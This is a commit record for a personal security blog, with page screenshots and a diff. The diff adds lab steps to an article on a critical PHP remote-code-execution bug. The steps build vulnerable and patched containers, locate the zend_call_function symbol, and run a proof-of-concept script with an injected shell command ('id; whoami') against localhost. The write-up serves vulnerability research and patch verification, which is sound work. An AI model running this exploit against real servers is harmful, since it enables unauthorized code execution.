

Before and after one commit to arunsanna/arunsanna.github.io, an Astro site: page /writing/php2shell-critical-php-rce in a window 1280 px wide. Shown: the part 3610-5029 px from the top of the page at 90% size, without its empty margins (123-1156 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme; Astro itself is replaced by a stand-in of ours; code samples lack their colours.

Commit message:
content: add container setup code blocks to php2shell article

````diff
--- a/deploy/forge/arunsanna-site/kustomization.yaml
+++ b/deploy/forge/arunsanna-site/kustomization.yaml
@@ -12,4 +12,4 @@ resources:
   - poddisruptionbudget.yaml
 images:
   - name: registry.arunlabs.com/arunsanna-site
-    digest: sha256:06bc84669d3c7cfccc7991e8803ab7dca2698b5c94e0de7c536a9ee3cc514149
+    digest: sha256:df9832a6eaf4e518a2d18faefe99799ab6f500c8aedfeb21e44bfa4691242207
--- a/src/content/writing/php2shell-critical-php-rce.md
+++ b/src/content/writing/php2shell-critical-php-rce.md
@@ -108,7 +108,61 @@ The fact that PHP workers are long-lived and reuse memory between requests is wh
 
 ## What I Found in Testing
 
-I set up two isolated containers: PHP 8.3.35 (vulnerable) and PHP 8.3.36 (patched), both running Apache.
+I set up two isolated containers: PHP 8.3.35 (vulnerable) and PHP 8.3.36 (patched), both running Apache. Here's how to reproduce the environment locally:
+
+```bash
+# Build the vulnerable version (PHP 8.3.35)
+podman build -t php2shell-vulnerable -f vulnerable/Dockerfile vulnerable/
+
+# Build the patched version (PHP 8.3.36)
+podman build -t php2shell-patched -f patched/Dockerfile patched/
+
+# Run both side by side
+podman run -d --name php2shell-vuln -p 8080:80 php2shell-vulnerable
+podman run -d --name php2shell-patched -p 8081:80 php2shell-patched
+```
+
+Verify they're up:
+
+```bash
+curl http://localhost:8080/test.php
+# Expected: PHP 8.3.35 - vulnerable endpoint
+
+curl http://localhost:8081/test.php
+# Expected: PHP 8.3.36 - patched endpoint
+```
+
+The exploit requires finding the address of `zend_call_function` in the target binary:
+
+```bash
+podman exec php2shell-vuln sh -c "nm -D /usr/local/bin/php | grep zend_call_function"
+# Output: 000000000045bd4c T zend_call_function
+```
+
+Then run the PoC against the vulnerable instance:
+
+```bash
+python3 poc.py "http://localhost:8080/test.php" \
+    --call "0x45bd4c" \
+    --command "id; whoami; echo POC_SUCCESS_VULN" \
+    --stall 1.5
+```
+
+And against the patched instance to confirm the fix:
+
+```bash
+python3 poc.py "http://localhost:8081/test.php" \
+    --call "0x45bd4c" \
+    --command "id; whoami; echo POC_SUCCESS_PATCHED" \
+    --stall 1.5
+```
+
+When you're done, clean up:
+
+```bash
+podman rm -f php2shell-vuln php2shell-patched
+podman rmi php2shell-vulnerable php2shell-patched
+```
 
 **Key finding:** The exploit is highly version-specific. The public PoC was calibrated for PHP 8.5.4 on Ubuntu, with a symbol delta of `0x43EF0` to locate `zend_call_function`. My PHP 8.3.35 build had a different delta of `0xE034`.
 
````
